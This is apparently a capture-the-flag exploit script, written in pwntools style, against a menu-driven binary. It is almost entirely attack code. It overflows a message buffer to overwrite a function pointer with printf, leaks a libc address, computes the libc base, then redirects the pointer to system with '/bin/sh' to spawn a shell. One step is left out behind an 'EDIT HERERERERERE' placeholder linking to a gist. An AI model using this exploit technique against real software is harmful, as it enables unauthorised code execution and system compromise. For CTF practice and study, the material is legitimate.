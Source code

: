 ```py
print(ru(b"> "))
sl(b"1")
print(ru(b"Index: "))
sl(str(0).encode())
print(ru(b"Message: "))

"""
EDIT HERERERERERE
https://gist.github.com/Yayoi-cs/94d97f8c1dca4f68177f6b0ec34620c0
EDIT HERERERERERE
EDIT HERERERERERE
"""

print(ru(b"> "))
sl(b"1")
print(ru(b"Index: "))
sl(str(7).encode())
print(ru(b"Message: "))
s(b"A"*0x48)


paybyte(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
add64(e.plt["printf"])
print(ru(b"> "))
sl(b"1")
print(ru(b"Index: "))
sl(str(idx).encode())
print(ru(b"Message: "))
sl(payload)

leakidx = 8
diff = 0x2a1ca

print(ru(b"> "))
sl(b"3")
res = r()
leak = res.split(b",")[leakidx]
leak = int(leak,16)
libc.address = leak - diff
hlog(libc.address)


paybyte(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
add64(libc.sym["system"])

sl(b"1")
print(ru(b"Index: "))
sl(str(0).encode())
print(ru(b"Message: "))
sl(b"/bin/sh\x00")


print(ru(b"> "))
sl(b"1")
print(ru(b"Index: "))
sl(str(idx).encode())
print(ru(b"Message: "))
sl(payload)

sl(b"3")


shell()
```